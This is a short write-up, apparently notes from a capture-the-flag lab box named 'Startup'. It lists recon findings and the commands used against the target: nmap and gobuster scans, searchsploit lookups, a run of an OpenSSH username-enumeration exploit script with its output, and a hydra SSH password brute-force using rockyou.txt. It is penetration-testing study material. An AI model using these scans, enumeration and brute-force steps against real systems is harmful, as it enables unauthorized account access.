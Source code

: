 Startup
#######
:Author: David Boyd
:Date: 2020-11-09

Reconnaissance
**************

User data:

+--------------+---------------+----------+----------------------+----------------+
| username     | email         | password | source               | etc            |
+==============+===============+==========+======================+================+
| Maya         |               |          | $TM/files/notice.txt |                |
+--------------+---------------+----------+----------------------+----------------+
| Kevin Hughes | kevin@iet.com |          | $TM/icons/blank.gif  | September 1995 |
+--------------+---------------+----------+----------------------+----------------+

Network data:

+------+---------+-----------+------------+------------+
| port | service | creds     | completion | info       |
+======+=========+===========+============+============+
| 21   | ftp     | anonymous | successful | notice.txt |
+------+---------+-----------+------------+------------+

- Apache/2.4.18 (Ubuntu) Server at $TM Port 80 | $TM/files/

Commands
********

Basic
=====

.. code-block:: Bash

	# Discovery
	sudo nmap -T5 -A -sS $TM
	sudo nmap --script=http-enum -sV -Pn $TM
	gobuster dir -u $TM -w /usr/share/wordlists/dirbuster/...small.txt

	# Determine if there are any vulnerabilities
	searchsploit vsftpd
		> nothing useful for verson 3.0.3
	searchsploit apache
		> nothing useful for version 2.4.18
	searchsploit openssh 7.2p2
		> linux/remote/40136	# Username enumeration

Username Enumeration - 40136.py
===============================

This is a Python2 script
	- dependencies: paramiko, numpy

.. code-block:: Bash

	# Install dependencies
	pip2 install paramiko numpy

	# run program
	python2 40136.py $TM -U \
	/usr/share/wordlists/SecLists/Usernames/Names/familynames-usa-top1000.txt
		> [+] WILSON
		> [+] HARRIS
		> [+] ALLEN
		> [+] ...
		...

Hydra - ssh
===========

.. code-block:: Bash

	hydra -L ssh-usernames.out -P /usr/share/wordlists/rockyou.txt \
	$TM ssh -t 4 -I

